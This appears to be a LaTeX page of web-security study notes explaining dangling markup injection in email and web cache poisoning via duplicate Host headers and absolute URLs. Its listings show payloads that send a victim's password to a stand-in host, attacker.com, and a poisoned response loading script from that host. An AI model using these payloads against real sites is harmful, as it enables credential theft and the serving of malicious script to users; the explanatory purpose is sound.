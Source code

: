 \documentclass[12pt,a4paper]{article}
\begin{document}
\begin{lstlisting}[caption=Dangling Markup Attack Flow]
# Attack email
<a href='//vulnerable.com:'<a href="//attacker.com/?/login'>here</a>

# Browser interpretation
<a href="//attacker.com/?/login%27%3Ehere</a></p>
<p>Your password: Secret123</p>">

# Resulting GET request
GET /?/login%27%3Ehere</a></p><p>Your password: Secret123</p>
Host: attacker.com
\end{lstlisting}

\textbf{Key Technical Details:}
\begin{itemize}
    \item When HTML parser encounters \texttt{<a href="//attacker.com/?}
    \item Everything after this until the next \texttt{"} becomes the href attribute
    \item This includes the rest of the email content (including password)
    \item Browser auto-completes malformed HTML by making a GET request
    \item No JavaScript execution needed (purely HTML-based)
    \item Raw HTML view bypasses sanitization (DOMPurify)
\end{itemize}

\subsubsection{4. Web Cache Poisoning via Ambiguous Requests}

\textbf{What is Ambiguous Request Cache Poisoning?}
This technique exploits discrepancies in how different components (front-end proxy vs back-end application) process HTTP requests, particularly the Host header.

\textbf{Key Injection Techniques:}

\begin{lstlisting}[caption=Duplicate Host Attack]
GET / HTTP/1.1
Host: vulnerable.com          # Front-end uses this for routing
Host: attacker.com           # Back-end uses this for content

# Result: Cache stores poisoned response
Response contains: <script src="attacker.com/payload.js"></script>
# Cache key: Host + Path (uses first host)
# Content generation: uses second host
\end{lstlisting}

\begin{lstlisting}[caption=Absolute URL Attack]
GET https://vulnerable.com/ HTTP/1.1
Host: attacker.com

# Front-end: Uses request line URL for routing
# Back-end: Uses Host header for content generation
\end{lstlisting}
\end{document}
